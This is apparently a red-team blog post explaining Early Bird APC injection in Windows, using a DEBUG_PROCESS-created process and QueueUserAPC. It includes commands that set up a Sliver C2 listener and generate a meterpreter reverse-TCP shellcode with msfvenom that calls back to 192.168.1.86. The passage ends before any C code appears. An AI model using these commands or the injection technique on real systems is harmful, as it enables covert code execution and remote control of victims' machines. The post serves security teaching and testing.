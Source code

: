 ```yaml
---
title: Offensive C - QueueUserAPC (Early Bird APC Injection)
author: nirajkharel
date: 2025-06-21 14:10:00 +0800
categories: [Red Teaming, Offensive Programming]
tags: [Red Teaming, Offensive Programming]
render_with_liquid: false
---
```



I have already discussed about Early Bird APC Injection using **QueueUserAPC** method [on this blog.](https://nirajkharel.com.np/posts/process-injection-shellcode-queuUserApc/) On a high level, with respect to the old method, we start by creating a suspended process example Notepad.exe, which pauses its execution. This lets us get a handle to the process and its threads. We then allocate memory using VirtualAlloc and inject our shellcode with **WriteProcessMemory**. Instead of **CreateRemoteThread**, we use **QueueUserAPC** to queue the shellcode on the main thread. Finally, calling **ResumeThread** triggers the APC, executing our code before the main thread runs.

But in this blog, we are going to explore a different technique to perform Early Bird APC Injection using the **DEBUG_PROCESS** flag instead of **CREATE_SUSPENDED**. Here we wil be using **CreateProcess** to create a process with DEBUG_PROCESS flag in which the local process would work as the debugger for the target/created process. Creating a process on the debugger mode will pause the execution and waits for the debugger to resume execution.

Common methods like **VirtualAlloc**, **WriteProcessMemory**, and **VirtualProtect** are used to inject shellcode into the target process's memory. The shellcode is then queued for execution using **QueueUserAPC**, which schedules it to run in the context of a thread. Once the local process, working as a debugger detaches from the remote process, the remote process resumes, and the queued APC executes the malicious shellcode.

We'll set up the C2 server to listen for incoming connections and generate shellcode using msfvenom. For this demo, we’re skipping shellcode obfuscation or encryption since it's covered in a previous blog, and real-time protection is disabled.

## Shellcode Generation and C2 Listener.
The shellcode generation and listening for the connection on the Sliver C2 is same as what we did on the previous blog.         

```bash
# Creating a profile on the C2
profiles new beacon --mtls 192.168.1.86:443 --format shellcode shellcode-beacon

# Creating a stage listener on port 8080. This listener delivers staged payloads and start the mTLS C2 server on host 192.168.1.86 and port 443.
stage-listener -u tcp://192.168.1.86:8080 -p shellcode-beacon

mtls -L 192.168.1.86 -l 443

# Generating the shellcode using msfvenom
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.86 LPORT=8080 -f c
```
